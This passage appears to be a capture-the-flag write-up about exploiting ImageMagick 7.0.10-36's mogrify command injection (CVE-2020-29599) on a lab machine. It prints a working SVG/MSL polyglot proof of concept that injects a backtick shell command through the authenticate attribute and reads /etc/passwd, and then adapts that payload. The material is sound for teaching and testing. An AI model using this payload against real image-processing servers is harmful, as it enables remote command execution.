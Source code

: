 The version on Meta is 7.0.10-36:

```

www-data@meta:/dev/shm$ mogrify -version
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib

```

Goolging for “mogrify CVE” doesn’t find much interesting, but searching for “imagemagick 7.0.10-36 exploit” finds many posts talking about XML injection, [CVE-2020-29599](https://www.cybersecurity-help.cz/vdb/SB2020121303).

### mogrify Command Injection

#### Background

It was a bit trickier to find, but [this post](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) has all the details of this exploit. The author creates a SVG/MSL [polyglot file](https://medium.com/swlh/polyglot-files-a-hackers-best-friend-850bf812dd8a). A polyglot is a file that is valid for two different file specifications (I have found memories of [HackVent 2020 day 20](/hackvent2020/leet#hv2020), where I was given a file that was both valid HTML and valid PNG).

In this case, it’s valid as both a scalable vector graphic (SVG) file and a ImageMagick Scripting Language (MSL) file. The POC is:

```

<image authenticate='ff" `echo $(id)> ./0wned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>

```

There’s a command injection in backticks in the first line.

#### POC

To test if this works, I’ll change the payload slightly to output a file in `/dev/shm` (to not make a mess of the web folder):

```

<image authenticate='ff" `echo $(id)> /dev/shm/.0xdf`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>

```
